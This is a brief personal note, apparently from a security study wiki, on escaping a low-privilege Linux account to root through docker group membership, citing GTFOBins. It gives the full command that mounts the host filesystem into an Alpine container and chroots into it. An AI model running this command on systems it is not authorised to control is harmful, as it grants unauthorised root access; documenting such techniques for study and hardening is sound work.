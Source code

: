 A lower level priv [[Linux Privilege Escalation]] user can get out and get access to root.
https://gtfobins.github.io/gtfobins/docker/#shell
The method is simple.
The docker has be running on the system and the user has to be member of the docker group.
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

